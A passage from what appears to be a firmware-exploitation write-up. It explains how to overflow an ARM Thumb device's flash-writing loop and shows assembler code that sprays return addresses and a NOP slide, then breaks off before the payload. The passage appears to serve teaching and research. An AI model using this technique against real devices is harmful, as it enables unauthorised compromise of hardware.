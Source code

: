 For the sake of simplicity, my entire exploit code will be stuck into the decryption buffer, while the receiving buffer will just have the return
address to jump to the exploit over and over again. One issue with creating an exploit is with how the loop for writing to flash works:

![Writing loop](img/11_loop.png)

And inside the callee function,

```
        080019ee 70  b5           push       { r4, r5, r6, lr }
...
        08001a36 70  bd           pop        { r4, r5, r6, pc }
```

We have to ensure that `r6 < r5` when the function returns, otherwise the loop will exit and won't be able to write our own address to where `lr` is store
on the stack. For this, instead of only having our address over and over again, we'll alternate a high address to try to not break out of the loop, and
target `lr` as close as possible.

Let's start our code. I'm not great with assembler directives, so this may not be optimal. First, we want to set up our return addresses:
```
.thumb
.section .text

.align 4
.rept 0x180
	.word	0x70000000
	.word	0x20000f81
.endr
```

This assembles into 12 null bytes and the two addresses repeated for about 3KB, which will put subsequent bytes into the decryption area.

Next, let's make a nop slide that we can roughly point to:
```
.rept 0x40
	nop
.endr
```
